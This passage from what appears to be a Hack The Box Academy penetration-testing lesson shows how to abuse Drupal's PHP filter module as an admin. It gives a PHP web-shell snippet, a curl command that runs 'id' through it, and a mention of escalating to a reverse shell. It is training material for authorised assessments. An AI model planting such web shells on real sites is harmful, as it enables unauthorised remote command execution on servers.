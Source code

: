 ## Leveraging the PHP Filter Module

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."

![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

![](https://academy.hackthebox.com/storage/modules/113/basic_page.png)

We can now create a page with a malicious PHP snippet such as the one below. We named the parameter with an md5 hash instead of the common `cmd` to get in the practice of not potentially leaving a door open to an attacker during our assessment. If we used the standard `system($_GET['cmd']);` we open up ourselves up to a "drive-by" attacker potentially coming across our web shell. Though unlikely, better safe than sorry!

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>

```

![](https://academy.hackthebox.com/storage/modules/113/basic_page_shell_7v2.png)

We also want to make sure to set `Text format` drop-down to `PHP code`. After clicking save, we will be redirected to the new page, in this example `http://drupal-qa.inlanefreight.local/node/3`. Once saved, we can either request execute commands in the browser by appending `?dcfdd5e021a869fcc6dfaef8bf31377e=id` to the end of the URL to run the `id` command or use `cURL` on the command line. From here, we could use a bash one-liner to obtain reverse shell access.

```shell
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first. We'd start by downloading the most recent version of the module from the Drupal website.

```shell
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz

```

Once downloaded go to `Administration` \> `Reports` \> `Available updates`.

Note: Location may differ based on the Drupal version and may be under the Extend menu.
